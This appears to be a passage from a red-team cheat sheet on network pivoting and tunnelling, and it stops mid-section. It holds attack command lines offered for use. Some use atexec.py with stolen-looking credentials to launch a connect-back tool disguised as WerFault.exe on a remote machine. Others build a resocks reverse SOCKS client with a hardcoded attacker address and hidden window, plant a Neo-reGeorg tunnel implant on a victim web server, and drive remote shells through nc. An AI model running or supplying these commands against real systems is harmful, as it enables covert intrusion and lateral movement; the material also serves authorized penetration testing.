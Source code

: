 ```
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'start "" /b C:\Windows\WerFault.exe -connect 10.10.13.37:8000 -pass "Passw0rd!"'
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'taskkill /IM:WerFault.exe /F && del C:\Windows\WerFault.exe'
Or get proc image first to make sure you're killing the right proc and kill by pid -- 'wmic process where "name='"'"'WerFault.exe'"'"'" get ProcessID, ExecutablePath'
```



### resocks

- [https://github.com/RedTeamPentesting/resocks](https://github.com/RedTeamPentesting/resocks)

```
$ git clone https://github.com/RedTeamPentesting/resocks ~/tools/resocks && cd ~/tools/resocks && go build
$ export RESOCKS_KEY=`./resocks generate`
$ CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w -H windowsgui -X main.defaultConnectBackAddress=10.10.13.37 -X main.defaultConnectionKey=$RESOCKS_KEY"
$ ./resocks listen
```



### (Neo-)reGeorg

* [https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)
* [https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)

Generate a tunnel implant and copy it to the Victim web server from `./neoreg_servers/tunnel*`:

```
$ python neoreg.py generate -k 'Passw0rd!'
```

Connect to the implant (`.aspx`, for example):

```
$ python neoreg.py -k 'Passw0rd!' -u http://web01.megacorp.local/tunnel.aspx -l 0.0.0.0 -p 1337 [--skip]
```



### ssf

- [https://github.com/securesocketfunneling/ssf](https://github.com/securesocketfunneling/ssf)

Map shells to users:

```bash
for port in `netstat -tulpan | grep 127.0.0.1 | grep ssfd | awk '{print $4}' | awk -F: '{print $2}'`; do echo "127.0.0.1:$port"; (echo qwinsta | nc 127.0.0.1 $port & sleep 1 && kill -s INT $!) 2>/dev/null | grep -a console; done
```

Alert to Tg about a new connection:
